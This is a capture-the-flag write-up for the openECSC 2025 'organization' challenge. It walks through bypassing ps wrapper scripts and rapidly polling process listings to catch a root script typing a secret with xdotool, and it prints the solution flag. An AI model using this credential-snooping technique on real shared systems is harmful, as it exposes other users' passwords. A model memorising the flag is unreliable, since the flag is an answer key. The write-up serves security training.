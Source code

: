 # openECSC 2025

## Challenge: organization

## Tags: misc

## Difficulty: Medium

## Table of Contents

- [Solution Overview](#solution-overview)
- [Tools Used](#tools-used)
- [Solution](#solution)
- [Flag](#flag)

### Solution Overview

This challenge presents a classic Linux privilege escalation scenario where wrapper scripts filter process listings to hide sensitive information. By discovering the actual `ps` binary at `/bin/ps` (bypassing the wrapper at `/usr/local/bin/ps`), I revealed hidden processes including an Xvfb X server running on display :99 and a `sys_maintenance` script executing as root. Through rapid process monitoring, I captured `xdotool` commands that were being used to automate password entry into a GUI application, revealing the flag directly in the command arguments.

### Tools Used

- SSH with ncat SSL proxy for remote access
- Standard Unix utilities (`ps`, `find`, `grep`, `xdotool`, `xwd`)
- Bash for process monitoring and rapid polling
- Python 3 for testing and automation

### Solution

When I first connected to the challenge system, I was greeted with the description: *"Average linux privesc, pls get flag kthxbye."* The title "organization" and the prompt suggested this would involve typical privilege escalation techniques.

**Initial thought**: "This is probably a standard Linux privesc box. Let me start with the usual enumeration."

#### Initial Reconnaissance

After SSH'ing into the system as user `user` (password: `user`), I began standard enumeration:

```bash
ssh -o "ProxyCommand=ncat --ssl 20835921-6d62-400c-92f8-2f639b7a4bd6.openec.sc 31337" user@localhost
# Password: user

id
# uid=1000(user) gid=1000(user) groups=1000(user)

sudo -l
# [sudo] password for user: 
# Sorry, user user may not run sudo on organization.
```

**No sudo access** → Need to find another vector.

#### The First Clue: Hidden Processes

Running `ps aux` showed a fairly standard process list:

```bash
ps aux
# root         15  0.0  0.0   4308  3116 ?        S    20:41   0:00 /bin/bash /opt/sys_maintenance
# root         16  0.6  0.1 229168 71772 ?        S    20:41   0:02 /usr/bin/Xvfb :99 -screen 0 1024x768x24 -ac -nolisten
```

**Interesting observations**:
- A script `/opt/sys_maintenance` running as root
- An Xvfb virtual X server on display :99
- But something felt... filtered

#### Discovering the Wrapper Scripts

Checking the PATH revealed something suspicious:

```bash
echo $PATH
# /usr/local/bin:/usr/local/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

**Wait**: `/usr/local/bin` appears THREE times at the beginning! That's unusual.

Investigating `/usr/local/bin`:

```bash
ls -la /usr/local/bin
# -rwxr-xr-x. 1 root root 387 Oct  3 20:41 pgrep
# -rwxr-xr-x. 1 root root 188 Oct  3 20:41 ps
# -rwxr-xr-x. 1 root root 126 Oct  3 20:41 top
```

**Three wrapper scripts!** Let me examine them:

```bash
cat /usr/local/bin/ps
```

```bash
#!/bin/bash
# Filter out sensitive processes for non-root users
if [ "$EUID" -eq 0 ]; then
    /bin/ps "$@"
else
    /bin/ps "$@" | grep -v -E "(system-monitor|Xvfb.*:99|xdotool.*:99)"
fi
```

**BINGO!** 

The wrapper is **filtering out** processes matching:
- `system-monitor`
- `Xvfb.*:99`
- `xdotool.*:99`

The filtering specifically mentions `xdotool` — a tool for automating X11 GUI interactions!

#### Bypassing the Wrapper

**Simple bypass**: Use the real `ps` binary directly:

```bash
/bin/ps aux
```

Now I could see everything:

```
root         15  0.0  0.0   4308  3116 ?        S    20:41   0:00 /bin/bash /opt/sys_maintenance
root         16  0.6  0.1 229168 71772 ?        S    20:41   0:02 /usr/bin/Xvfb :99 -screen 0 1024x768x24 -ac -nolisten 
root        449  4.0  0.0  39804 21460 ?        Sl   20:47   0:00 python3 /opt/password_app.py
```

**New discoveries**:
- `password_app.py` running as root with a GUI (likely using Xvfb)
- The `sys_maintenance` script is probably automating something with xdotool
- Everything's running on the virtual display :99

#### Investigating the X Server

I tried various approaches to extract information from the X server:

```bash
export DISPLAY=:99

# Find windows
xdotool search --onlyvisible --class ""
# 1293

# Get window info
xdotool getwindowgeometry 1293
# Window 1293
#   Position: 0,0 (screen: 0)
#   Geometry: 1024x768
```

A fullscreen window exists! I captured a screenshot:

```bash
xwd -root -out /tmp/screenshot.xwd
```

But without tools to analyze the XWD file (no `convert`, `strings`, etc.), extracting the flag from the screenshot wasn't feasible.

#### The Breakthrough: Real-Time Process Monitoring

Then I had a realization: **If sys_maintenance is using xdotool to automate something, maybe I can catch it in action!**

The wrapper script filters xdotool from `ps` output, but I can use `/bin/ps` with rapid polling:

```bash
while true; do 
    /bin/ps auxww 2>/dev/null | grep "xdotool" | grep -v grep
    sleep 0.1
done
```

**First catch**:

```
root       1340  0.0  0.0   7736  3708 ?        S    20:59   0:00 xdotool key Return
root       1597  0.0  0.0   7736  3792 ?        S    20:59   0:00 xdotool search --name Secure Login System mousemove --window %1 250 120 click 1
```

Interesting! It's clicking on a window named "Secure Login System". Let me keep monitoring...

**Second catch** — THE MONEY SHOT:

```bash
while true; do 
    /bin/ps auxww 2>/dev/null | grep "xdotool" | grep -v grep
    sleep 0.05  # Even faster polling
done
```

```
root       1638  0.0  0.0   8112  3740 ?        S    20:59   0:00 xdotool type openECSC{w3_sh0uld_st0p_us1ng_x0rg}
root       1974  0.0  0.0   7736  3892 ?        S    20:59   0:00 xdotool search --name Secure Login System mousemove --window %1 250 120 click 1
root       2016  0.0  0.0   8112  3628 ?        S    20:59   0:00 xdotool type openECSC{w3_sh0uld_st0p_us1ng_x0rg}
```

**🎉 FLAG CAPTURED!**

The `sys_maintenance` script was using `xdotool type` to automatically enter the flag into the password application, and I caught it mid-execution!

#### Why This Worked

The exploit chain relied on several key insights:

1. **PATH Manipulation Detection** → The repeated `/usr/local/bin` entries in PATH were suspicious
2. **Wrapper Script Discovery** → Finding the filtered `ps` command revealed what was being hidden
3. **Direct Binary Access** → Bypassing wrappers by calling `/bin/ps` directly
4. **Process Monitoring** → Real-time rapid polling caught short-lived processes
5. **Command-Line Exposure** → The `xdotool type` command included the full text as an argument

The challenge title "organization" was a hint — the wrapper scripts created an "organizational" layer that tried to hide sensitive automation processes.

**Key lesson**: When process listings seem incomplete or suspicious, check for wrapper scripts in PATH and use direct binary paths to bypass filtering.

### Flag

**`openECSC{w3_sh0uld_st0p_us1ng_x0rg}`**

The flag itself is a commentary on the security implications of using X.org for sensitive operations — X11's architecture makes it particularly vulnerable to snooping and automation attacks, as this challenge demonstrated!
